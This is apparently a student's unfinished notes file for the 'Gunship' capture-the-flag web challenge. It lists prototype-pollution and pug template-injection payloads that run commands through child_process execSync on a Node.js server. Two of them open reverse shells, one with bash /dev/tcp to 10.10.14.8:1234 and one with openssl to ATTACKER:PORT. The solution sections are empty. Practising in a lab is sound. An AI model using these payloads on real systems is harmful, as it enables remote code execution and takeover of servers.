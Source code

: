 
# <span style="color:[COLOR]">Challenge #1 Gunship</span>  


## <span style="color:[COLOR]">Notes During Working on the Machine 🧐🤓   
* Imma try and gobuster it see if I find anything or maybe try using feroxbuster. Maybe check a word list specifically for apis.  
* There is no need to brute force directories I found an RCE exploit but it kept giving me command failed.
* Anyway the backend is nodejs.

  ```js
  Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};
  ```

  ```json
  "Haigh {'__proto__.block': {'type': 'Text','line': 'process.mainModule.require(\'child_process\').execSync(\'whoami\', function puts(error, stdout, stderr) {})'}}"

  {
      "__proto__.block": {
          "type": "Text", 
          "line": "process.mainModule.require('child_process').execSync('whoami', function puts(error, stdout, stderr) {})"
  }}
  ```

  ```json
  {
      "artist.name": "Haigh;console.log(process.mainModule.require('child_process').execSync('id').toString())"
  }
  ```

  ```
  //pug
  "__proto__.block": {
          "type": "Text", 
          "val": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/10.10.14.8/1234 0>&1'`)"
      }
  ```

  ```js
  process.mainModule.require('child_process').execSync('sleep 10');
  var c = require('child_process');
   c.exec("mkfifo .s");
   c.exec("/bin/sh -i < .s 2>&1 | openssl s_client -quiet -connect ATTACKER:PORT > .s");
   c.exec("rm .s");
  var c = process.mainModule.require('child_process'); c.exec("mkfifo.s");c.exec("/bin/sh -i < .s 2>&1 | openssl s_client -quiet -connect ATTACKER:PORT > .s");c.exec("rm .s");
  ```   

* When I tried the command `sleep 10` into the `execSync` function it worked without any errors so I have to look into what command I should really provide.
* I'm not sure if I should get a reverse shell or is it another way. Because if I need to spawn a reverse shell what should I put my ip address since this is not a machine that I have on my "private network".

<br/><br/>



## <span style="color:[COLOR]">How Did I Solve the Challenge 😎🥳 


<br/><br/>






## <span style="color:[COLOR]">What Did I learn from this Machine?👀  


<br/><br/>



## <span style="color:[COLOR]">Writeups ✍🏽📓   


<br/><br/>


<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->